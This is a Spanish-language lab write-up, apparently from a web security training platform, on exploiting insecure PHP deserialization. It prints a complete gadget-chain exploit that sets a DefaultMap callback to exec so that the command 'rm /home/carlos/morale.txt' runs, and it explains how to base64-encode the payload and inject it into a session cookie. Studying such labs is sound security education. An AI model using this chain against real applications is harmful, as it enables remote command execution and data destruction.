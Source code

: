 Creamos manualmente un objeto **CustomTemplate** que contiene la cadena de gadgets necesaria. En este objeto, el atributo ‘**desc**‘ contiene una instancia de **DefaultMap** cuyo **callback** es la función **exec**. Al deserializarlo, ‘**exec()**‘ se invocará con el valor de ‘**default_desc_type**‘, que contiene nuestro comando malicioso.

Codificamos el objeto en Base64 y lo URL-encodeamos, luego lo inyectamos en la cookie de sesión. Al procesarse, se ejecuta el comando, lo que elimina el archivo ‘**morale.txt**‘ del directorio de Carlos y resuelve el laboratorio.

Solucion
![Pasted_image_20250827015606.png](Imagenes/Pasted_image_20250827015606.png)
asi que modificamos el codigo
(<?php

class CustomTemplate {
    public $default_desc_type;
    public $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    public function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    public $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

$obj = new CustomTemplate();
$obj->desc = new DefaultMap("exec");
$obj->default_desc_type = "rm /home/carlos/morale.txt";

echo serialize($obj);
?>)
Ambos códigos comparten la misma estructura de clases (`CustomTemplate`, `Product`, `Description`, `DefaultMap`), pero tienen diferencias **críticas** en cuanto a seguridad, visibilidad y comportamiento al serializar. Vamos a desglosarlo:

🧩 Comparación técnica entre los dos códigos

![Pasted_image_20250827021726.png](Imagenes/Pasted_image_20250827021726.png)

🔥 ¿Por qué el segundo código es peligroso?

En el segundo código, se hace esto:

$obj->desc = new DefaultMap("exec"); $obj->default_desc_type = "rm /home/carlos/morale.txt";

Y luego se serializa el objeto:

echo serialize($obj);

Cuando este objeto se deserializa, se ejecuta:

$this->product = new Product($this->default_desc_type, $this->desc);

Lo que se traduce en:

$this->desc = $desc->$default_desc_type;

Y como `$desc` es un `DefaultMap`, se invoca:

call_user_func("exec", "rm /home/carlos/morale.txt");

💣 **Resultado**: Se ejecuta un comando del sistema que borra un archivo.

🛡️ Conclusión

- El **primer código** es seguro y bien encapsulado. No permite manipulación externa de propiedades sensibles.
- El **segundo código** es vulnerable a **deserialización insegura**, lo que puede permitir ejecución de comandos arbitrarios si el objeto es manipulado antes de serializar.
ejecutamos
![Pasted_image_20250827021815.png](Imagenes/Pasted_image_20250827021815.png)
asi que esto hay que representarlo en base64
![Pasted_image_20250827022115.png](Imagenes/Pasted_image_20250827022115.png)
copiamos la cookie y pegamos
![Pasted_image_20250827022202.png](Imagenes/Pasted_image_20250827022202.png)

